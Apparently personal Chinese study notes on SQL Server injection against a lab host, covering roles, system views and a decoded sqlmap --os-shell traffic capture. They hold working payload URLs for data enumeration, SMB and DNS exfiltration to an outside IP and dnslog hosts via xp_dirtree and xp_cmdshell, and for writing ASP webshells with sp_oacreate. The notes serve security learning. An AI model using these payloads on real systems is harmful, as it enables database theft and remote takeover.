










## MSSql

MSSql是指<span data-type="text" style="color: var(--b3-font-color8);">微软的SQLServer</span>数据库服务器，<span data-type="text" style="color: var(--b3-font-color8);">它是一个数据库</span>平台，提供数据库的从服务器到终端的完整的解决方案，其  
中数据库服务器部分，是一个数据库管理系统，用于建立、使用和维护数据库。SQL Server默认开放的端口是TCP1433。

## 渗透角度介绍MSSql

Microsoft SQL Sever分为很多个版本，随着版本的不断升级安全性也越来越高，渗透过程中最喜欢的版本应该就是  
2008以前，<span data-type="text" style="color: var(--b3-font-color8);">在2008及其以后的版本数据库的权限已经不再是system</span>,相对于MySQL这个MSSql显得强大许多，他众多的功  
能也给我们注入过程带来了便利，所以一般数据库为mssql支持多语句我们就考虑是不是应该直接拿下webshell。

## MSSql视图和表

### 表与视图区别？

表是存在物理记录的集合，而视图只是一串sq脚本;

表需占用物理空间，而视图理论上可以不占用物理空间;

视图可以将多个表呈现给用户，而表只可以呈现自身;

视图可以随意删除和重建，而表的删除会导致数据丢失;

### 表与视图之间的联系？

<span data-type="text" style="color: var(--b3-font-color9);">视图是建立在表的基础之上的</span>一种结构视图中的数据可以来源于多张表;

表是实际存在的不依附视图;

使用视图可以增强表的安全性;

数据表是真实存在的，有效数据，视图相当于固定的5q语句，当打开视图就行其$q语句。视图多为几个表的关系联合表达。有助于封装复杂的关系。

### MSSql的默认库

SQL Servers安装4个系统数据库。它们分别是master数据库、model数据库、tempdb数据库和msdb数据库。这些数据库是  
SQL Server的心脏和灵魂。

* <span data-type="text" style="color: var(--b3-font-color8);">master</span>数据库（重要）：master数据库控制SQL Server的所有方面。这个数据库中包括所有的<span data-type="text" style="color: var(--b3-font-color8);">配置信息、用户登录信息</span>、当  
  前正在服务器中运行的<span data-type="text" style="color: var(--b3-font-color8);">过程的信息</span>。
* <span data-type="text" style="color: var(--b3-font-color8);">model</span>数据库：model数据库是建立所有用户数据库时的模板。当建立一个新数据库时，SQL Servers会把model数据库中的所  
  有对象建立一份拷贝并移到新数据库中。在模板对象被拷贝到新的用户数据库中之后，该数据库的所有多余空间都将被空页填  
  满。
* <span data-type="text" style="color: var(--b3-font-color8);">tempdb</span>数据库：这个库用来<span data-type="text" style="color: var(--b3-font-color8);">保存所有的临时表</span>、存储过程和其他SQL Server建立的临时用的东西。
* <span data-type="text" style="color: var(--b3-font-color8);">msdb</span>数据库：由Enterprise Manager和Agent使用，记录着任务计划信息、事件处理信息、数据备份及恢复信息、警告及异  
  常信息。

## MSSql中角色和用户

### 服务器角度

* 服务器登录名：指有权限登录到某服务器的<span data-type="text" style="color: var(--b3-font-color8);">用户</span>，可以在有权限的情况下创建新的登录名，超级管理员的登录名是<span data-type="text" style="color: var(--b3-font-color8);">sa</span>
* 服务器角色：指一组固定的服务器用户，默认有<span data-type="text" style="color: var(--b3-font-color8);">9组</span>。针对行整个数据库服务器设定的角色和权限。
* 服务器登录名和角色的关系：登录名一定属于某些角色，默认为<span data-type="text" style="color: var(--b3-font-color8);">public</span>。服务器角色不允许更改，登陆后也不一定有权限操作数据库。

### 数据库角度

* 数据库用户：指有权限能操作数据库的用户。
* 数据库角色：指一组固定的<span data-type="text" style="color: var(--b3-font-color8);">有某些权限</span>的数据库角色，针对某个特定数据库设定的角色和权限。
* 数据库架构：指数据库对象的容器。
* 用户、角色、机构的关系：数据库用户对应于服务器登录名以便登录者可以操作数据库。数据库角色可以添加，可以定制不同权限数据库架构，类似于数据库对像的命名空间，用户通过架构访问数据库对象。

在sqlserver里一个用户最终的权限应该是由<span data-type="text" style="color: var(--b3-font-color8);">服务器权限</span>加上<span data-type="text" style="color: var(--b3-font-color8);">数据库权限</span>加上<span data-type="text" style="color: var(--b3-font-color8);">对像的权限</span>组成的，这三个级别的权限是累加的。  
但是拒绝权限是优先的  
如果一个用户指定了服务器角色，那这个用户对服务器某些操作就有了一定权限，比如说执行系统命令、管理服务器磁盘、开机关机等等，如果不指定具体角色，默认为public角色  
如果一个用户指定了数据库角色，那这个用户在ssql数据库中的某个或某几个数据库就有了管理权限，例如有最高管理权限、只可读权限、只可写权限等。  
注意：如果某个账号只指定的服务器角色，没有指定数据库角色，该账号还是对数据库有绝对操作的权利。

## MSSql权限控制

### 固定服务器角色

|固定服务器角色|说明|
| ------------------------------------------------| ---------------------------------------------|
|<span data-type="text" style="color: var(--b3-font-color8);">sysadmin</span>|执行SQL Server中的任何动作|
|serveradmin|配置服务器设置|
|<span data-type="text" style="color: var(--b3-font-color8);">setup</span>admin|安装复制和管理扩展过程|
|<span data-type="text" style="color: var(--b3-font-color8);">security</span>admin|管理登录和CREATE DATABASE的权限以及阅读审计|
|processadmin|管理SQL Serveri进程|
|dbcreator|创建和修改数据库|
|diskadmin|管理磁盘文件|

下面两个系统过程用来添加删除固定服务器角色成员：  
<span data-type="text" style="color: var(--b3-font-color8);">sp_addsrvrolemember
sp_dropsrvrolemember</span>

注意：只有固定服务器角色的成员才能执行上述两个系统过程来从角色中添加或删除登录账户。我们自己是不可以添加、修改和删除固定服务器角色的。

可以通过语句判断权限：   <span data-type="text" style="color: var(--b3-font-color8);">and 1=(select is_srvrolemember('sysadmin'))</span>

### 固定数据库角色

固定数据库角色在数据库层上进行定义，因此它们<span data-type="text" style="color: var(--b3-font-color8);">存在于属于数据库服务器的每个数据库中。</span>  
我们可以通过语句判断权限：and1=(select is_memeber('db owner'))

#### public

* public角色是一种<span data-type="text" style="color: var(--b3-font-color8);">特殊</span>的固定数据库角色，数据库的<span data-type="text" style="color: var(--b3-font-color8);">每个合法用户</span>都属于该角色。
* 它为数据库中的用户提供了所有默认权限。即给予那些没有适当权限的所有用户以一定  
  的权限。
* public角色为数据库中的所有用户都保留了默认的权限，因此是<span data-type="text" style="color: var(--b3-font-color8);">不能被删除</span>的。

|固定数据库角色|说明|
| -------------------------------------------| -------------------------------------------------------------------------------------------|
|<span data-type="text" style="color: var(--b3-font-color8);">db_owner</span>|可以执行数据库中技术所有动作的用户|
|db_accessadmin|可以添加、删别除用户的用户|
|db_datareader|可以查看所有数据库中用户表内数据的用户|
|db_datawriter|可以<span data-type="text" style="color: var(--b3-font-color8);">添加、修改或删除</span>所有数据库中用户表内数据的用户|
|db_ddladmin|可以在数据库中执行所有<span data-type="text" style="color: var(--b3-font-color8);">DDL</span>(数据库定义语言)操作的用户|
|db_securityadmin|可以管理数据库中与<span data-type="text" style="color: var(--b3-font-color8);">安全权限有关</span>所有动作的用户|
|db_backoperator|可以<span data-type="text" style="color: var(--b3-font-color8);">备份</span>数据库的用户|
|db_denydatareader|不能<span data-type="text" style="color: var(--b3-font-color8);">看</span>到数据库中任何数据的用户|
|db_denydatawriter|不能<span data-type="text" style="color: var(--b3-font-color8);">改变</span>数据库中任何数据的用户|

## MSSql的基本语句

```sql
创建数据库：CREATE DATABASE[dbname]
删除数据库：drop database[dbname]
创建新表：create table[tablename](name char(IO),age tinyint,,sex int)
删除新表：drop table[tablename]
向表中插入内容：insert into[tablename](field1,field.2)values(value1,value2)
删除内容：delete from[tablename]where范围
更新内容：update[tablename]set field1=value1 where范围
查找：select*from[tablename]where field1="ichunqiu"
```

## 利用总结

SQL注入查登录用户Hash  
扩展存储过程 xp_cmdshell执行命令  
系统存储过程sp_oacreate-+sp_oamethod执行命令  
扩展存储过程  xp_regwrite  写注册表(映像劫持，远程桌面，开机启动项等)  
利用CLR组件执行系统命令  
系统存储过程  sp_addextendedproc  恢复组件  
差异备份写webshell  
日志备份写webshell

## MSSql注入

### MSSq注入与SQL注入的区别？

1. 注入对象不同：MSSql注入的对象是：Microsoft SQL SEVER数据库;  SQL注入的对象是：MySQL数据库。
2. 语句不同：由于不同的数据库的语法都不同，所以注入的语句也不同。

### Information_schema

在注入过程中常用的MSSql结构一information_schema

* "SCHEMATA”表，用于存<span data-type="text" style="color: var(--b3-font-color8);">储数据库名</span>，其中的关键字段为<span data-type="text" style="color: var(--b3-font-color8);">SCHEMA_NAME</span>表示数据库名称
* “TABLES”表，用于<span data-type="text" style="color: var(--b3-font-color8);">存储表名</span>。其中关键字段<span data-type="text" style="color: var(--b3-font-color8);">TABLE_NAME</span>表示表的名称
* “COLUMNS”表，用于存储<span data-type="text" style="color: var(--b3-font-color8);">字段名</span>。其中关键字段<span data-type="text" style="color: var(--b3-font-color8);">COLUMN_NAME</span>表示字段名

### 视图表

|视图表|说明|
| ---------------------------------------------| -----------------------------------------------------------|
|<span data-type="text" style="color: var(--b3-font-color8);">sys.databases</span>|SQL Server中所有数据库|
|sys.sql_logins|SQL Server中所有<span data-type="text" style="color: var(--b3-font-color8);">登录名</span>|
|<span data-type="text" style="color: var(--b3-font-color8);">information_schema.tables</span>|当前用户数据库中的表|
|<span data-type="text" style="color: var(--b3-font-color8);">information_schema.columns</span><br />|当前用户数据库中的列|
|sys.all_columns<br />|用户定义对象和系统对像的所有列的联合|
|sys.database_principals<br />|数据库中每个权限或列异常权限|
|sys.database_files<br />|存储在数据库中的数据库文件|
|sysobjects|数据库中创建的每个对像(例如约束、日志以及存储过程)|

## --os--shell在mysql和mssql里的区别 ★

### sqlmap --os-shell 在mssql数据库执行命令原理：

1.判断xp_cmdshell是否可用  
2.重新开启xp_cmdshell存储过程  
3.接收命令调用xp_cmdshell执行并存储到sqlmapoutput表的data字段中。  
4.在利用联合查询查询sqlmapoutput表data字段的数据。

### sqlmap --os-shell 在mysql数据库执行命令原理：

1.利用mysql备份功能 into outfile/dumpfile 写文件上传功能的木马。  
2.利用文件上传功能马上传命令执行的马  
3.利用命令马传参cmd执行系统命令

## 联合查询

判断数据库类型

http://192.168.100.225/less-2.asp?id=1 and exists(select * from sys.objects)--+

http://192.168.100.225/less-2.asp?id=1 and exists (select count(*) from sysobjects)--+

​​

1. 查询数据库名

    http://192.168.100.225/less-2.asp?id=0 union select top 1 '1',db_name(),name from sys.databases where name not in(select top 2 name from sys.databases)--+

    ​​

    控制top返回行数遍历库名

    ​​

    ​​

## 报错注入

1. 查询数据库信息

    http://192.168.100.225/less-2.asp?id=1 and @@version=1--+

    ​​

    http://192.168.100.225/less-2.asp?id=1 and 1=(select name from sys.databases where database_id=4)--+

    ​​

    http://192.168.100.225/less-2.asp?id=1 and 1=(select quotename(count(name)) from sys.databases)--+

    ​​

    http://192.168.100.225/less-2.asp?id=1 and (select top 1 name from sys.databases)=1--+

    ​​

    http://192.168.100.225/less-2.asp?id=1 and (select top 1 name from sys.databases where name not in (select top 3 name from sys.databases))=1--+

    ​​

    http://192.168.100.225/less-2.asp?id=1 and 1=(select quotename(name) from sys.databases for xml path(''))--+

    ​​

## 数据外带

### SMB数据外带

利用xp_subdirs,xp_dirtree,xp_fileexist使用unc路径判断文件发起请求带出数据

http://192.168.100.225/less-2.asp?id=1;declare @a varchar(1024);set @a=db_name();exec('master..xp_subdirs "//'%2B'192.168.100.235\\'%2b@a%2b'.txt"')--+

tail -f /var/log/samba/log.smbd | grep "failed"

​​

http://192.168.100.225/less-2.asp?id=1;declare @a varchar(1024);set @a=(select top 1 name from sys.databases);exec('master..xp_subdirs "//'%2B'192.168.100.235\\'%2b@a%2b'.txt"')--+

​​

http://192.168.100.225/less-2.asp?id=1;declare @a varchar(1024);set @a=(select top 1 name from sys.databases);exec('master..xp_dirtree "//'%2B'192.168.100.235\\'%2b@a%2b'.txt"')--+

http://192.168.100.225/less-2.asp?id=1;declare @a varchar(1024);set @a=(select top 1 name from sys.databases);exec('master..xp_fileexist "//'%2B'192.168.100.235\\'%2b@a%2b'.txt"')--+

​​

### DNS 数据外带

http://192.168.100.225/less-2.asp?id=1;declare @a varchar(8000);set @a=db_name();exec('master..xp_cmdshell "ping.exe ' %2b@a%2b '.06e7cd58.log.dnslog.biz. -n 1"')--+

​​

http://192.168.100.225/less-2.asp?id=1;declare @a varchar(1024);set @a=db_name();exec('master..xp_subdirs "//'%2B@a%2B'.d2d2a117.log.dnslog.sbs.\\a" ')--+

​​

http://192.168.100.225/less-2.asp?id=1;declare @a varchar(1024);set @a=db_name();exec('master..xp_dirtree "//'%2B@a%2B'.0b662a37.log.dnslog.biz.\\a" ')--+

​​

http://192.168.100.225/less-2.asp?id=1;declare @a varchar(1024);set @a=db_name();exec('master..xp_fileexist "//'%2B@a%2B'.1ef7a253.log.dnslog.biz.\\a" ')--+

​​

http://192.168.100.225/less-2.asp?id=1;declare @a varchar(1024);set @a=(select top 1 name from sys.databases);exec('master..xp_fileexist "//'%2B@a%2B'.92e43c80.log.dnslog.biz.\\a" ')--+

​​

## sqlmap 在mssql 执行--os-shell 抓包分析原理

使用sqlmap执行以下命令并用bp代理抓包

sqlmap -u "http://192.168.100.225/less-2.asp?id=1" --batch --dbms mssql --proxy http://127.0.0.1:8080 --os-shell --purge

1. ‍

```sql
GET /less-2.asp?id=1%3BDECLARE%20%40uhug%20VARCHAR%288000%29%3BSET%20%40uhug%3D0x70696e67202d6e203130203132372e302e302e31%3BEXEC%20master..xp_cmdshell%20%40uhug-- HTTP/1.1
Cache-Control: no-cache
User-Agent: sqlmap/1.8.1.6#dev (https://sqlmap.org)
Cookie: ASPSESSIONIDQSSCDRTB=JNGDBDKAMKODPPBFDLKHPKFG
Host: 192.168.100.225
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive


```

解码为：

id=1;<span data-type="text" style="color: var(--b3-font-color8);">DECLARE @uhug VARCHAR(8000)</span>;<span data-type="text" style="color: var(--b3-font-color11);">SET @uhug=0x70696e67202d6e203130203132372e302e302e31;</span><span data-type="text" style="color: var(--b3-font-color6);">EXEC master..xp_cmdshell @uhug</span>--

解析：

id=1;<span data-type="text" style="color: var(--b3-font-color8);">declare @uhug varchar(8000)</span>;<span data-type="text" style="color: var(--b3-font-color11);">set @uhug=ping -n 10 127.0.0.1;</span><span data-type="text" style="color: var(--b3-font-color6);">exec master..xp_cmdshell @uhug</span>--

变量的声明和赋值

<span data-type="text" style="color: var(--b3-font-color8);">declare @uhug varchar(8000)</span>;   声明最大长度8000字符的可变长字符串变量@uhug

<span data-type="text" style="color: var(--b3-font-color11);">set @uhug=ping -n 10 127.0.0.1;</span>    为变量赋值为十六进制的字符串，内容为：<span data-type="text" style="color: var(--b3-font-color11);">ping -n 10 127.0.0.1</span>。

执行系统命令

<span data-type="text" style="color: var(--b3-font-color6);">exec master..xp_cmdshell @uhug</span> 通过<span data-type="text" style="color: var(--b3-font-color6);">xp_cmdshell</span>  存储过程执行<span data-type="text" style="color: var(--b3-font-color6);">@uhug</span> 变量中的命令。

总结：向本地地址127.0.0.1发送10个ICMP请求（ping）

2. ‍

```sql
GET /less-2.asp?id=1%3BDROP%20TABLE%20sqlmapoutput-- HTTP/1.1
Cache-Control: no-cache
User-Agent: sqlmap/1.8.1.6#dev (https://sqlmap.org)
Cookie: ASPSESSIONIDQSSCDRTB=JNGDBDKAMKODPPBFDLKHPKFG
Host: 192.168.100.225
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive


```

解码为：

id=1%3BDROP%20TABLE%20sqlmapoutput--

解析：

id=1;drop table sqlmapoutput--

用于从数据库中删除名为sqlmapoutput的表。  sqlmapoutput：临时表或日志文件来存储测试过程中的数据

3. ‍

```sql
GET /less-2.asp?id=1%3BCREATE%20TABLE%20sqlmapoutput%28id%20INT%20PRIMARY%20KEY%20IDENTITY%2C%20data%20NVARCHAR%284000%29%29-- HTTP/1.1
Cache-Control: no-cache
User-Agent: sqlmap/1.8.1.6#dev (https://sqlmap.org)
Cookie: ASPSESSIONIDQSSCDRTB=JNGDBDKAMKODPPBFDLKHPKFG
Host: 192.168.100.225
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive


```

解码为：

?id=1;CREATE TABLE sqlmapoutput(id INT PRIMARY KEY IDENTITY, data NVARCHAR(4000))--

解析：

?id=1;<span data-type="text" style="color: var(--b3-font-color8);">create table sqlmapoutput</span>(<span data-type="text" style="color: var(--b3-font-color11);">id int primary key identity, data nvarchar(4000)</span>)--

<span data-type="text" style="color: var(--b3-font-color8);">create table sqlmapoutput</span>()  创建表名字为<span data-type="text" style="color: var(--b3-font-color8);">sqlmapoutput</span>

<span data-type="text" style="color: var(--b3-font-color11);">id int primary key identity, data nvarchar(4000)</span>  ： 字段 id、int 类型、自增、主键；字段data、nvarchar类型、最多存储4000字符；

4. ‍

```sql
GET /less-2.asp?id=1%3BDECLARE%20%40fyps%20VARCHAR%288000%29%3BSET%20%40fyps%3D0x6563686f2031%3BINSERT%20INTO%20sqlmapoutput%28data%29%20EXEC%20master..xp_cmdshell%20%40fyps-- HTTP/1.1
Cache-Control: no-cache
User-Agent: sqlmap/1.8.1.6#dev (https://sqlmap.org)
Cookie: ASPSESSIONIDQSSCDRTB=JNGDBDKAMKODPPBFDLKHPKFG
Host: 192.168.100.225
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

解码为：

id=1;<span data-type="text" style="color: var(--b3-font-color8);">DECLARE @fyps VARCHAR(8000);</span><span data-type="text" style="color: var(--b3-font-color11);">SET @fyps=0x6563686f2031;</span><span data-type="text" style="color: var(--b3-font-color6);">INSERT INTO sqlmapoutput(data) EXEC master..xp_cmdshell @fyps</span>--

解析：

id=1;<span data-type="text" style="color: var(--b3-font-color8);">declare@fyps varchar(8000)</span><span data-type="text" style="color: var(--b3-font-color11);">;set@fyps=echo 1</span>;<span data-type="text" style="color: var(--b3-font-color6);">insert into sqlmapoutput(data) exec master..xp_cmdshell @fyps</span>--

<span data-type="text" style="color: var(--b3-font-color8);">declare@fyps varchar(8000)</span>  `DECLARE`​ 是一个关键字，用于声明局部变量，创建一个名为`@fyps`​的变量，数据类型为`VARCHAR`​，长度为8000个字符。

<span data-type="text" style="color: var(--b3-font-color11);">SET @fyps=0x6563686f2031;</span>  将`@fyps`​变量的值设置为一个十六进制字符串`0x6563686f2031`​  字符串为[`echo 1`]()​

<span data-type="text" style="color: var(--b3-font-color6);">insert into sqlmapoutput(data) exec master..xp_cmdshell @fyps</span>    `xp_cmdshell`​​是SQL Server的一个扩展存储过程，<span data-type="text" style="color: var(--b3-font-color8);">允许执行操作系统命令</span>。将`@fyps`​变量中的命令（即`echo 1`​）作为系统命令来执行。将命令的<span data-type="text" style="color: var(--b3-font-color8);">输出</span>插入到名为`sqlmapoutput`​的表的`data`​列中。

5. ‍

```sql
GET /less-2.asp?id=-9017%20UNION%20ALL%20SELECT%20CHAR%28113%29%2BCHAR%28120%29%2BCHAR%28107%29%2BCHAR%28122%29%2BCHAR%28113%29%2BISNULL%28CAST%28COUNT%28data%29%20AS%20VARCHAR%284000%29%29%2CCHAR%2832%29%29%2BCHAR%28113%29%2BCHAR%28122%29%2BCHAR%2898%29%2BCHAR%2898%29%2BCHAR%28113%29%2CNULL%2CNULL%20FROM%20sqlmapoutput--%20HLnQ HTTP/1.1
Cache-Control: no-cache
User-Agent: sqlmap/1.8.1.6#dev (https://sqlmap.org)
Cookie: ASPSESSIONIDQSSCDRTB=JNGDBDKAMKODPPBFDLKHPKFG
Host: 192.168.100.225
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive


```

解码为：

id=-9017 UNION ALL SELECT <span data-type="text" style="color: var(--b3-font-color12);">CHAR(113)+CHAR(120)+CHAR(107)+CHAR(122)+CHAR(113)+</span><span data-type="text" style="color: var(--b3-font-color11);">ISNULL(CAST(</span><span data-type="text" style="color: var(--b3-font-color8);">COUNT(data)</span> <span data-type="text" style="color: var(--b3-font-color11);">AS VARCHAR(4000)),CHAR(32))</span><span data-type="text" style="color: var(--b3-font-color12);">+CHAR(113)+CHAR(122)+CHAR(98)+CHAR(98)+CHAR(113),NULL,NULL </span><span data-type="text" style="color: var(--b3-font-color6);">FROM sqlmapoutput</span>-- HLnQ

解析：

id=-9017 union all select  qxkzq isnull(cast(<span data-type="text" style="color: var(--b3-font-color8);">count(data</span>) as varchar(4000)), )qzbbq,NULL,NULL<span data-type="text" style="color: var(--b3-font-color6);"> from sqlmapoutput</span>-- HLnQ

<span data-type="text" style="color: var(--b3-font-color8);">COUNT(data)</span> 聚合函数，计算`sqlmapoutput`​表中`data`​列的非NULL值的数量。

<span data-type="text" style="color: var(--b3-font-color11);">ISNULL(CAST(COUNT(data) AS VARCHAR(4000)),CHAR(32)) </span>将COUNT(data)的结果<span data-type="text" style="color: var(--b3-font-color9);">转换为字符串</span>（如果它不为NULL），如果为NULL，则返回一个空格（CHAR(32)）

<span data-type="text" style="color: var(--b3-font-color6);"> from sqlmapoutput</span>： 查询的数据来源是`sqlmapoutput`​表

<span data-type="text" style="color: var(--b3-font-color12);">CHAR(113)+CHAR(120)+CHAR(107)+CHAR(122)+CHAR(113)+</span><span data-type="text" style="color: var(--b3-font-color11);">ISNULL(CAST(</span><span data-type="text" style="color: var(--b3-font-color8);">COUNT(data)</span> <span data-type="text" style="color: var(--b3-font-color11);">AS VARCHAR(4000)),CHAR(32))</span><span data-type="text" style="color: var(--b3-font-color12);">+CHAR(113)+CHAR(122)+CHAR(98)+CHAR(98)+CHAR(113)</span>：结构为：'qxkzq\<data列行数\>qzbbq'

总结：从`sqlmapoutput`​表中获取`data`​列的行数，并将这个行数嵌入到一个特定的字符串中（`'qxkzq<data列行数>qzbbq'`​）通过联合查询返回。

6. ‍

```sql
GET /less-2.asp?id=1%3BDECLARE%20%40fwiq%20VARCHAR%288000%29%3BSET%20%40fwiq%3D0x77686f616d69%3BINSERT%20INTO%20sqlmapoutput%28data%29%20EXEC%20master..xp_cmdshell%20%40fwiq-- HTTP/1.1
Cache-Control: no-cache
User-Agent: sqlmap/1.8.1.6#dev (https://sqlmap.org)
Cookie: ASPSESSIONIDQSSCDRTB=JNGDBDKAMKODPPBFDLKHPKFG
Host: 192.168.100.225
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive


```

解码为：

id=1;<span data-type="text" style="color: var(--b3-font-color8);">DECLARE @fwiq VARCHAR(8000);</span><span data-type="text" style="color: var(--b3-font-color11);">SET @fwiq=0x77686f616d69;</span><span data-type="text" style="color: var(--b3-font-color6);">INSERT INTO sqlmapoutput(data) EXEC master..xp_cmdshell @fwiq</span>--

解析：

id=1;<span data-type="text" style="color: var(--b3-font-color8);">declare @fwiq varchar(8000);</span><span data-type="text" style="color: var(--b3-font-color11);">set@fwiq=whoami;</span><span data-type="text" style="color: var(--b3-font-color6);">insert into sqlmapoutput(data) exec master..xp_cmdshell @fwiq</span>--

<span data-type="text" style="color: var(--b3-font-color8);">DECLARE @fwiq VARCHAR(8000);</span>  声明了一个名为`@fwiq`​的变量，类型为`VARCHAR(8000)`​。

<span data-type="text" style="color: var(--b3-font-color11);">SET @fwiq=0x77686f616d69;</span>  将变量`@fwiq`​的值设置为十六进制字符串`0x77686f616d69`​，即`whami`​字符串。

<span data-type="text" style="color: var(--b3-font-color6);">INSERT INTO sqlmapoutput(data) EXEC master..xp_cmdshell @fwiq</span> 将`xp_cmdshell`​存储过程的输出插入到`sqlmapoutput`​表的`data`​列中。

## MSSql注入拓展

##### MSSql的特殊功能—扩展存储过程

* 存储过程是<u>[一组为了完成特定功能的SQL语句集合]()</u>，经编译后存储在数据库中，用户通过指定存储过程的名称并给出  
  参数来执行。存储过程中可以包含<span data-type="text" style="color: var(--b3-font-color8);">逻辑控制语句和数据操纵语句</span>，它可以接受参数、输出参数、返回单个或多个结果  
  集以及返回值。
* 由于存储过程在创建时即在数据库服务器上进行了编译并存储在数据库中，所以存储过程运行要比单个的SQL语句块  
  要快，同时由于在调用时只需用提供存储过程名和必要的参数信息，所以在一定程度上也可以减少网络流量、简单网  
  络负担。
* 存储过程分为：系统存储过程、本地存储过程、扩展存储过程、远程存储过程、临时存储过程。

  ```mindmap
  - 存储过程
    - 系统存储过程
    - 本地存储过程
    - 扩展存储过程
    - 远程存储过程
    - 临时存储过程
  ```

## 系统存储过程

以sp开头，进行系统的设定。如：<span data-type="text" style="color: var(--b3-font-color8);">sp_oacreate、sp_oamethod</span>

利用条件：

1.已获取到sqlserver sysadmin权限用户的账号与密码且未降权(如2019版本sa用户权限为mssqlserver,已降权)  
2.sqlserverz允许远程连接  
3.OLE Automation Procedures选项开启

<span data-type="text" style="color: var(--b3-font-color8);">sp_oacreate,是创建OLE对象的实例。
sp_oamethod,是调用一个OLE对象的方法。</span>

sp_oacreate系统存储过程可以用于对文件删除、复制、移动等操作，可配合sp_oamethod系统存储过程调用系统wscript.shells来执行系统命令。sp_oacreate和sp_oamethod两个过程分别用来创建和执行脚本语言。sp_oacreate+sp_oamethod存储过程调用wscript.shell可执行命令，无回显，<span data-type="text" style="color: var(--b3-font-color8);">若存在web环境可写入到web目录或反弹shell。</span>

## sp_oacreate/sp_oamethod

### sp_oacreate/sp_oamethod执行系统命令  重定向写shell

http://192.168.100.226/less-1.asp?id=1';declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c echo "<%25eval request(123)%25>" > c:/inetpub/wwwroot/zhang.asp'--+

​​

‍

### sp_oacreate/sp_oamethod写shell

http://192.168.100.225/less-2.asp?id=1;declare @o int, @f int, @t int, @ret int exec sp_oacreate 'scripting.filesystemobject', @o out exec sp_oamethod @o, 'createtextfile', @f out, 'c:\inetpub\wwwroot\youze.asp', 1 exec @ret = sp_oamethod @f, 'writeline', NULL,'<%25execute(request("cmd"))%25>'

​​

### sp_oacreate/sp_oamethod+重定向

